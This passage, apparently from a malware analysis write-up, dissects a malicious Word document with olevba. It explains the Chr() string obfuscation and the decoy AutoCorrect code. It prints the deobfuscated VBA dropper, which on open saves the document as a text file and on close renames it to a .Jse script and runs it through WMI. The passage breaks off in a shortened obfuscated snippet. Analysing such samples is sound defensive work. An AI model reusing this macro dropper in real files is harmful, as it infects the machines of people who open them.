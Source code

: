 Olevba tells us in the summary that there are obfuscated Strings using the `Chr()` method. That method returns an ASCII character using an integer. This is mostly used to prevent being detected by signature scanners. Also, there is code being executed when the document is being opened and closed.

In the extracted vba code we can see a function called `AddToTheAutoCorrectList` which will be called when the document is being closed (remember this for a moment). Whenever we find such prominent names, we can try to ask Google about it. And we can actually find a [search result](https://word.tips.net/T001732_Importing_AutoCorrect_Entries.html) on word.tips.net which explains how to import words to the AutoCorrect dictionary via vba. The instructions given on the site I linked are not malicious at all. But some threat actor decided to use that code as a basis to get some malware on your machine. As it turned out later on in the analysis this vba code was actually only decoy to distract analysts from the actual malware.

So basically after removing all the unnecessary code (which was copied from the linked site) and deofuscating the leftovers, we are left with the following vba code:

```vb
Private malFilePath As String

Private Function GetTemplateFilePath()
	malFilePath = ActiveDocument.AttachedTemplate.Path & "\2angola.dot"
	GetTemplateFilePath = malFilePath
End Function

Private Sub storeJSE(filename As String)
	ActiveDocument.SaveAs 	FileName:=tcv, FileFormat:=wdFormatText, [...], AddToRecentFiles:=False, [...], InsertLineBreaks:= False, [...], LineEnding:=wdCRLF
End Sub

Private Sub Document_Close()
	newMalFilePath = Replace(malFilePath, ".dot", ".Jse")
    Name malFilePath As newMalFilePath
    Set p = GetObject("winmgmts:Win32_Process")
    res = p.Create("Explorer """ & newMalFilePath & """", Null, Null, pid)
End Sub

Private Sub Document_Open()
	storeJSE GetTemplateFilePath
	storeJSE GetTemplateFilePath & "u"
End Sub
```

When the document is being opened (**Document_Open()** subroutine), the vba creates two (same) files which are a text-only copy of the `/word/document.xml` file. It uses the [SaveAs](https://docs.microsoft.com/en-us/previous-versions/office/developer/office-2003/aa220734(v%3Doffice.11)) method with the parameter `wdFormatText`, which stores the word file as text without formatting using the ANSI character set.

Here is a (shortened) snipped of the obfuscated vba code - mind that the names are the original names of that file, they probably used these random names so that it's harder to guess their functionality - The comments were added by me:

```vb
Private Function Deza()
    ' Returns a file path as string
    Foto = ActiveDocument.AttachedTemplate.Path & "\2angola.dot"
    Deza = Foto ' return value
End Function

Private Sub Document_Open()
    ' Creates two files
    Plosk Deza
    Plosk Deza & "u"
End Sub

Private Sub Plosk(tcv As String)
```